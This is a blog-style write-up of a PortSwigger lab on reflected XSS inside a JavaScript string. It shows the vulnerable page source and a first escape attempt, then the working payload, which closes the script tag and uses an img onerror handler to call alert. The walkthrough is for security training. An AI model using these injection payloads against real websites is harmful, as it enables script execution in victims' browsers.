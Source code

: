 # Reflected XSS into a JavaScript string with single quote and backslash escaped | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped), you'll learn: Reflected XSS into a JavaScript string with single quote and backslash escaped! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the `alert` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101033828.png)

In here, we can see there is a search box.

Let's try to search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101034058.png)

As you can see, our input is reflected to the web page.

**View source page:**
```html
<section class=search>
    <form action=/ method=GET>
        <input type=text placeholder='Search the blog...' name=search>
        <button type=submit class=button>Search</button>
    </form>
</section>
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

In here, **the `searchTerms` is inside the `document.write` JavaScript function's string.**

**Let's try to escape it:**
```html
>'+'<script>alert(document.domain)</script>'
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101034812.png)

However, **it escaped `"`.**

**How about `\`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035043.png)

Same.

**Which means we need to use event handlers:**
```html
</script><img src=errorpls onerror=alert(document.domain)>
```

**Hence the application's JavaScript will be:**
```html
<script>
    var searchTerms = 'test';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='</script><img src=errorpls onerror=alert(document.domain)>
```

Let's try it:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035458.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-21/images/Pasted%20image%2020230101035506.png)

Nice!

# What we've learned:

1. Reflected XSS into a JavaScript string with single quote and backslash escaped